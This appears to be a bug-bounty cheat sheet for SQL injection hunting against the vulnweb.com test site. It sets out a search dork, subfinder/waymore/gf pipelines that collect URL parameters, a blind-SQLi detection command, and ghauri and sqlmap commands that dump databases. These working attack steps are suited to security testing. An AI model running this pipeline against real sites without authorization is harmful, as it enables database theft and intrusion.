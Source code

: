 ## Dork

```
site:.com & ext:php | ext:asp | ext:aspx | ext:jsp | ext:jspx & intext:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>
<a href="https://github.com/HackShiv/OneDorkForAll/blob/main/dorks/Bug%20Bounty%20dork.txt" >More bug bounty dorks</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```
<a href="https://github.com/freelancermijan/.gf/blob/main/sqli.json">All SQLi Parameters</a>

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```
<a href="https://github.com/coffinsp/payloads">More payloads</a>

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
